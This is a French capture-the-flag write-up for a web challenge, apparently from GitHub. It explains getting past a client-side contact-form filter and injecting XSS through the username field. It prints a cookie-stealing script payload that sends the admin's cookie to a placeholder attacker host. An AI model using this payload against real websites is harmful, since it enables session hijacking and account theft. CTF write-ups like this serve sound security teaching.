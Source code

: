 # Operation Assange
> Auteur : Al-oxos

## Recon

La description du challenge nous indique qu'un site web vient d'être découvert et qu'il contient des informations sensibles. Plus particulièrement, il nous est indiqué que l'administrateur est très vigilant au formulaire de contact et qu'il est extrêmement actif.
Nous pouvons alors assez simplement en déduire que le challenge va consister à trouver un moyen de faire exécuter quelque chose à l'administrateur du site web pour obtenir des informations sensibles qu'il pourrait cacher.

![Page d'accueil](accueil.png)

En nous rendant sur l'application, nous pouvons voir différentes pages (rien de très intéressant, seulement du lore...) ainsi que la fameuse page de contact qui permet d'envoyer un message à l'administrateur en entrant un pseudonyme ainsi que le message à transmettre. Il est également possible de prévisualiser le message avant de l'envoyer comme l'administrateur pourrait le voir en le recevant.

![Page de contact](contact.png)

![Page de contact](preview.png)

Le challenge semble désormais plutôt clair, il va falloir réussir à envoyer une XSS à l'administrateur pour qu'il l'exécute et nous fournisse des informations sensibles (en l'occurence ici récupérer le cookie de l'administrateur car on nous indique qu'il serait intéressant de récupérer l'accès administrateur...). Pour cela, nous allons devoir trouver un moyen de faire exécuter du code javascript à l'administrateur en utilisant le formulaire de contact.
Un filtre est en place sur ce fameux formulaire, il est solide (enfin normalement...) mais est réalisé côté client, il suffit donc d'intercepter la requête ou d'utiliser l'onglet network du navigateur pour pouvoir le contourner. 
Une fois cette "sécurité" contournée, il ne reste plus qu'à tester des payloads de xss classique et de vérifier leur fonctionnement via la prévisualisation du message.
En testant un petit peu, on découvre que le champ username est injectable mais pas le message. Il est donc possible d'envoyer un message à l'administrateur contenant un payload de xss.

![XSS](xss.png)

## Challenge solve

Maintenant que nous savons qu'il est possible d'injecter une xss dans le champ username, il ne reste plus qu'à trouver un moyen de récupérer le cookie de l'administrateur. Pour cela, nous allons utiliser un payload de xss classique qui va nous permettre de récupérer le cookie de l'administrateur et de le transmettre à notre serveur.

Payload : 
```javascript
<script>document.location="http://votreip:port/?c=".concat(document.cookie)</script>
```

![Cookie stealing](cookiesteal.png)

En attendant un petit peu, nous obtenons une requête qui contient le cookie de l'administrateur et nous pouvons récupérer le flag.

![flag](flag.png)


